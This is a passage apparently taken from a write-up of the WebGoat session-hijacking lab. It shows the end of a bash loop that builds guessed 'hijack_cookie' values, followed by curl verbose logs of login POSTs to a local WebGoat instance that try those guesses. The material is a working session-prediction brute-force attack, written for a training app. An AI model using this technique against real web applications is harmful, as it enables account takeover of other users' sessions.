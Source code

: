 ```bash
	  echo "hijack_cookie=$parte1_tmp($diferencia1)-$parte2_tmp($diferencia2)"
	fi	
	diferencia2_tmp=$diferencia2
	sleep $3
done
```

```bash
...

Nope!

hijack_cookie=4745395612611424128-1686452114652
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 8080 (#0)
> POST /WebGoat/HijackSession/login HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: application/x-www-form-urlencoded; charset=UTF-8
> Cookie: JSESSIONID=ltnhhpmxFIz0IJ_jkKiOK_kIEVQ6QRDCY6o-Apmm; hijack_cookie=4745395612611424128-1686452114652;
> Content-Length: 25
> 
} [25 bytes data]
* upload completely sent off: 25 out of 25 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Connection: keep-alive
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: DENY
< Transfer-Encoding: chunked
< Content-Type: application/json
< Date: Sun, 11 Jun 2023 02:55:16 GMT
< 
{ [198 bytes data]
* Connection #0 to host localhost left intact

Nope!

hijack_cookie=4745395612611424128-1686452114651
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 8080 (#0)
> POST /WebGoat/HijackSession/login HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: application/x-www-form-urlencoded; charset=UTF-8
> Cookie: JSESSIONID=ltnhhpmxFIz0IJ_jkKiOK_kIEVQ6QRDCY6o-Apmm; hijack_cookie=4745395612611424128-1686452114651;
> Content-Length: 25
> 
} [25 bytes data]
* upload completely sent off: 25 out of 25 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Connection: keep-alive
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: DENY
< Transfer-Encoding: chunked
```